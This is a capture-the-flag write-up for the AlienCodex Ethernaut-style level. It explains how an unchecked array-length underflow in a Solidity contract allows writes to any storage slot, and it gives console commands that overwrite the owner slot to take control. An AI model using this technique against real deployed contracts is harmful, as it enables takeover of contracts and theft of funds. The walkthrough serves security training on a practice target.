

# Challenge 19



```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import '../helpers/Ownable-05.sol';

contract AlienCodex is Ownable {

  bool public contact;
  bytes32[] public codex;

  modifier contacted() {
    assert(contact);
    _;
  }
  
  function make_contact() public {
    contact = true;
  }

  function record(bytes32 _content) contacted public {
    codex.push(_content);
  }

  function retract() contacted public {
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
```

Challenge
--- 
> You've uncovered an Alien contract. Claim ownership to complete the level.

Solution
--- 

1. Ethereum has storage like an array of 2256 (indexing from 0 to 2256 - 1) slots of 32 byte each.

2. `retract` function will resize array without checking undeflow.
here's the vulnerability. but if need to execute this function we need to make contact needs to be true so we have function that will make out contact state false to `true`. Now Open up the terminal let's get the ownership.

```shell
>  await contract.make_contact()
// true
```

We must now determine the codex's index, i, which corresponds to slot 0 (where the owner is kept).

codex is dynamically sized only it's length is stored at next slot - slot 1. And it's location/position in storage, according to allocation rules, is determined by as keccak256(slot):

>   keccak256(slot)

remember `bool` is `1 byte` and `owner` is `20 byte` so they can fit in one slot.

here's
```
Slot        Data
-------------------------------------------------------------------
0             owner address, contact bool
1             codex.length
    .
    .
    .
p             codex[0]
p + 1         codex[1]
    .
    .
2^256 - 2     codex[2^256 - 2 - p]
2^256 - 1     codex[2^256 - 1 - p]
0             codex[2^256 - p]  (overflow!)
```
It is clear from the above table that storage slot 0 corresponds to the codex's index, which is `i = 2^256 - p` or `2^256 - keccak256(1)`!

I will therefore change the owner and contact by writing to that index.

Let's Calculate, p in storage of start of codex array.

```shell
> p = web3.utils.keccak256(web3.eth.abi.encodeParameters(["uint256"], [1]))
// 0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6
```
Calculate the required index i.
```shell
> i = BigInt(2 ** 256) - BigInt(p)
// 35707666377435648211887908874984608119992236509074197713628505308453184860938n
```

now get the address
```shell
> content = '0x' + '0'.repeat(24) + player.slice(2)
// 0x000000000000000000000000YOURADDRESS
```
now call the revise slot 
```shell
> await contract.revise(i, content)
```

and for to check `owner`
```shell
> await contract.owner();
// your address
```

now submit the instance and your level pass the AlienCodex Level 🎉.